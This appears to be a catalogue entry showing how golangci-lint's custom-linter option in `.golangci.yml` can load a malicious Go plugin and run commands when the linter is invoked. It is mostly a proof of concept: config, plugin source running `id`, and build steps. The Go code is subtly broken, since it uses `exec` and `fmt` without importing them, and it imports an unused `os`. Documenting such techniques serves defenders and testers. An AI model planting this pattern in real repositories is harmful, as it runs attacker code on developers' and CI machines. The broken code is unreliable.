 ```yaml
---
title: golangci-lint
tags:
- cli
- config-file
- eval-go
references: https://golangci-lint.run/usage/configuration/
files: ['.golangci.yml', '.golangci.yaml', 'golangci.toml', 'golangci.json']
---
```


`golangci-lint` is a meta-linter tool for Golang that can be configured using a local configuration file. Supported configuration file formats are:

```
.golangci.yml
.golangci.yaml
.golangci.toml
.golangci.json
```

RCE can be achieved through the custom linter support when executing `golangci-lint run`:

`.golangci.yml`

```yaml
linters-settings:
  custom:
    pwn:
      path: pwn.so
```

`pwn.go`

```go
package main

import (
	"os"
	"golang.org/x/tools/go/analysis"
)

var Analyzer = &analysis.Analyzer{
	Name: "pwn",
	Doc:  "pwn",
	Run:  run,
}

func run(pass *analysis.Pass) (any, error) {
	return nil, nil
}

func New(_ any) ([]*analysis.Analyzer, error) {
	out, _ := exec.Command("id").Output()
	fmt.Println(string(out))
	return []*analysis.Analyzer{Analyzer}, nil
}
```

`pwn.so` is build using:

```sh
go mod init main
go mod tidy
go build -buildmode=plugin -o pwn.so pwn.go
```
